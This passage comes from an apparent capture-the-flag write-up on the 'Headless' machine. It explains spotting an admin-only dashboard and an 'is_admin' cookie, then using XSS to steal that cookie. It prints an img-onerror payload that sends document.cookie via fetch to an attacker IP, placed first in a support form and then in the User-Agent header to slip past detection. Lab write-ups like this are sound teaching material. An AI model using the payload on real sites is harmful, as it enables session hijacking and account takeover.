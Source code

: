 By visiting the **/dashboard** endpoint we see that we are not authorized to view that page.

<p>
  <img src="assets/img/writeupImgs/headless/dashboard_not.png" 
  alt="Descripción"/>
</p>

## 3. XSS

The fact that it is present:

1. a support form;
2. an "is_admin" cookie;
3. dashboard accessible only by an admin;

It makes me think about the possible presence of an XSS that I need to steal the admin cookie. Then I intercept the request made by the *support* page and insert the following payload in the message field: `<img src=q onerror=fetch('http://IP:1234/'+document.cookie);>`

<p>
  <img src="assets/img/writeupImgs/headless/hacking.png" 
  alt="Descripción"/>
</p>

But the server recognizes the hacking attempt. So I tried to receive the cookie by placing the payload in the *User-Agent* field.

<p>
  <img src="assets/img/writeupImgs/headless/cookie.png" 
  alt="Descripción"/>
</p>
